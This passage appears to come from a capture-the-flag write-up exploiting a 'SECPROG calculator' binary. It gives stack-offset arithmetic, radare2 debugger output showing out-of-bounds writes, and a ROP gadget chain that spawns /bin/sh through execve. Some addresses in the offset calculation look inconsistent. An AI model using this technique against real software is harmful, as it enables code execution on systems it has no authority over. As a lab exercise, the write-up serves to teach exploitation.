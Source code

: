 ```
var_where_write = 0xffffd8448 // +x
ebp = 0xffffd8448
var = *(ebp - 0x59c + result[0])
x = result[0]

var_where_write = var

x = var_where_write -ebp + 0x59c => x = 1440 => x = 360
```

Pay attention that the stack should be filled from highest address to the lowest otherwise our values will be overwritten, this is shown below.

```
[0x08048d2a]> dc
=== Welcome to SECPROG calculator ===
+361+4276545
138794458
hit breakpoint at: 8049416
[0x08049416]> pxw @ ebp
0xffffd848  0xffffd868 0x0845d5da 0x00414141 0x08049434  h.....E.AAA.4...
[0x08049416]> dc
+362+4276545
8553090
hit breakpoint at: 8049416
[0x08049416]> pxw @ ebp
0xffffd848  0xffffd868 0x0845d5da 0x00828282 0x00414141  h.....E.....AAA.
0xffffd858  0xffffd8fc 0x080481b0 0x00000000 0x080ec00c  ................
```


Let's search gadgets using [ROPGadget](https://github.com/JonathanSalwan/ROPgadget).

```
execv ("/bin/sh\0", argv = "/bin/sh\0", "\0\0\0\0")

eax = 11
ebx = "/bin/sh\0"
ecx = ebx
edx = NULL


----------------- Gadgets ------------------

0x080e398d  pop eax; ret
0x080701d0  pop edx; pop ecx; pop ebx; ret
0x08094cfb  int 0x80

--------------------------------------------

Stack should be filled in the following way:

0xffffd8448: 0x080e398d  0x11
0xffffd8450: 0x080701d0  addr_null
0xffffd8458: addr_binsh addr_binsh
0xffffd8460: 0x08094cfb
```
